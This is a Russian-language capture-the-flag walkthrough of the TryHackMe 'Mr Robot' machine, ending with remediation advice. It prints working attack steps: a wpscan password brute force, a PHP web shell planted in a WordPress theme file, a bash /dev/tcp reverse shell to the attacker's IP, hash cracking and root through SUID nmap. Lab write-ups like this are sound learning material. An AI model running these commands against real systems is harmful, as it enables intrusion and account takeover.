# TryHackMe: Mr Robot CTF

*Дата: 30.10.2026-31.10.2026*

### Сложность: Medium

**Мой IP: 192.168.130.244**

**IP Цели: 10.112.179.23**

### **Лаборатория: TryHackMe, все действия легитимны**

**Инструменты: nmap, gobuster, wget, wpscan, netcat, hashcat, php, python3** 

---

Сегодня у меня очередная машинка с *TryHackMe*, однако в этот раз всё интереснее. Это моя первая машинка **medium** уровня на этом сайте, поэтому давайте уже приступим к ней

Начать стоит думаю как всегда с сканирования `nmap`, с флагом `sV` для того чтобы увидеть версии, и `sC` чтобы запустить базовые скрипты `nmap` для проверки популярных уязвимостей, просканировать все порты, а так-же `-O` чтобы узнать какая там примерно стоит операционная система:

```bash
sudo nmap -sV -sC -O -p- 10.112.179.23
```



Итак, `nmap` показал всего три порта, 22 на которым открыт `ssh`, 80 на которым открыт сайт `http` и 443 на котором открыт... А так же он показал, что операционная система на данной машинке скорее всего - **Linux**

Давайте в первую очередь просканируем 80-ый порт с помощь `gobuster`:

```bash
gobuster dir -u http://10.112.179.23 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt # Помимо скрытых папок, мы ищем файлы форматов php,html,txt потому что это одни из самых популярных форматов для Apache, а сайт как раз таки на нём
```




`gobuster` на самом деле показал ОГРОМНЫЙ вывод, к чему я если честно не был готов. Я решил разделить задачи для своего удобства, и начать с просмотра вывода со **Status: 200**, чтобы потом постепенно переходить к другим выводам


Пока что я остановился на `robots.txt`, в котором было информация о двух файлах в системе: `key-1-of-3.txt` и `fsocity.dic`, которые я сразу решил использовать.

Перейдя по `http://10.112.179.23/key-1-of-3.txt` меня встретил **первый флаг**, а в `http://10.112.179.23/fsocity.dic` был огромный словарь, который возможно мне понадобится в будущем, поэтому давайте скачаем его с помощью `wget`:

```bash
wget http://10.112.179.23/fsocity.dic
```

Второй файл который меня заинтересовал это `http://10.112.179.23/wp-links-opml`, в котором была информация о версии `WordPress` - **4.3.1**. Это очень старая версия `WordPress` аж 2015 года

И последний файл который был - это `http://10.112.179.23/wp-login.php`. Это страница, куда нужно было ввести юзернейм и пароль. Теперь я знаю для чего возможно пригодится `fsocity.dic`, возможно там есть пароль, продолжу искать что нибудь полезное

Я пересмотрел всё, и я ничего не смог найти. Я ожидал хоть какой то подсказки, но кроме страницы логина и файла `fsocity.dic` мне жестокая medium машинка не оставила. У меня появилась идея, что `username` может быть именем главного героя в сериале и я попробовал в `http://10.112.179.23/wp-login.php` ввести имя `elliot` и рандомный пароль, потому что возможно ошибка мне выведет что неправильный именно **пароль**, что подтвердит существование учетной записи `elliot`



И да, мне пишет что `elliot` - верный логин, а пароль который я ввёл для теста *(123 если интересно)* был неверным. Это колоссально меняет дело, ведь теперь с помощью `wpscan` я могу попытаться подобрать пароль из `fsocity.dic`, однако `fsocity.dic` огромный файл, из за чего в мою голову пришла мысль, а нету ли там дубликатов, что я решил проверить с помощью `sort` и `uniq`:

```bash
sort fsocity.dic | uniq -c
```

И мне вывело, что почти каждая строка стабильно встречается аш 75 раз! Это очень большое число, давайте очистим этот файл:

```bash
sort fsocity.dic | uniq > clean-fsocity.dic
```

Теперь паролей намного меньше, поэтому давайте теперь используем `wpscan`:

```bash
wpscan --url http://10.112.179.23 --usernames elliot --passwords clean-fsocity.dic
```



И мы нашли пароль! Если честно сначала пароль `ER28-0652` я перепутал с ошибкой, а потом понял, что это пароль. 

И да, наконец я смог подобрать юзернейм и пароль. Теперь, изучая сайт я наткнулся на одну забавную вещь: Темы.. Темы сайта можно поменять с помощью кода на `.php`.



Честно? Я не сдержал смеха, я просто добавил `<?php system($_GET['cmd']); ?>` в файл 404.php *(т.е внедрил веб-шелл)* и решил проверить его работу, введя в `URL` строку:

```bash
http://10.112.179.23/wp-content/themes/twentyfifteen/404.php?cmd=id
```



И я получил что хотел, теперь на сервере есть веб-шелл. Теперь давайте откроем 4444-ый порт на kali:

```bash
nc -lvp 4444
```

А теперь введём вот такой `URL` запрос:

```bash
http://10.112.179.23/wp-content/themes/twentyfifteen/404.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.130.244/4444%200>%261'
```

Если честно я сомневался что это щас сработает, ведь там есть специальные символы, но я всё равно получил **reverse-shell**

Первым делом давайте получим **TTY** с помощью `python3` или `python`:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

И теперь у меня есть **TTY-shell**, а то раньше всегда забывал его получать. Ладно, теперь поищем второй флаг, скорее всего он у одного из юзеров в папке `/home`:

```bash
cd /home
```

```bash
ls -la
```



Тут есть пользователь `robot` переместимся в него:

```bash
cd /home/robot
```

```bash
ls -la
```



И тут есть второй флаг! Но я не могу его прочитать, ведь это может сделать только владелец файла, а то есть `robot` (ну и `root` тоже может если занудничать)

Однако, помимо второго флага тут есть странный файл `password.raw-md5`, который уже может прочитать любой

```bash
cat password.raw-md5
```



где был дефолтный `md5` шифр даже без соли, который я решил взломать с помощью `hashcat` на нашей kali:

```bash
echo "c3fcd3d76192e4007dfb496cca67e13b" > robot-md5.txt
```

```bash
hashcat -m 0 -a 0 robot-md5.txt /usr/share/wordlists/rockyou.txt
```



И пароль от `robot` оказался.. `abcdefghijklmnopqrstuvwxyz`...

Поэтому давайте теперь используем `su robot` чтобы переключится на пользователя `robot`:

```bash
su robot
```

А когда спрашивает пароль, пишем `abcdefghijklmnopqrstuvwxyz`

Отлично, теперь когда мы `robot` давайте прочитаем второй флаг

```bash
cat /home/robot/key-2-of-3.txt
```

И теперь нам остался последний флаг, флаг `root`

Давайте сначала поищем файлы с нестандартными `SUID` битами:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```



И тут я сразу тут замечаю `SUID` бит на `nmap`. Это критическая уязвимость. Сразу же ввожу:

```bash
/usr/local/bin/nmap --interactive
```

А затем

```bash
!sh
```

И получаю `root`, а потом читаю третий флаг:

```bash
cat key-3-of-3.txt
```

И прохожу машинку

### РЕКОМЕНДАЦИИ ПО УСТРАНЕНИЮ УЯЗВИМОСТЕЙ:
  1. **Сделать все открытые файлы закрытыми, т.е убрать возможность читать robots.txt, fsocity.dic**
  2. **При неправильном вводе пароля, писать "Неверный логин или пароль", а не "Неверен только пароль"/"Неверный логин"**
  3. **Исправить 404.php и тому подобные, не позволять редактировать код и придумать другую идею по смене темы**
  4. **Поставить более надёжный пароль для пользователя robot, а так же не хранить свой пароль прямо в /home/robot**
  5. **Убрать SUID-бит у nmap. Старые версии nmap имели интерактивный режим (--interactive), который позволял выполнить команду оболочки (!sh). Так как у файла был SUID-бит, команда выполнялась от имени root**
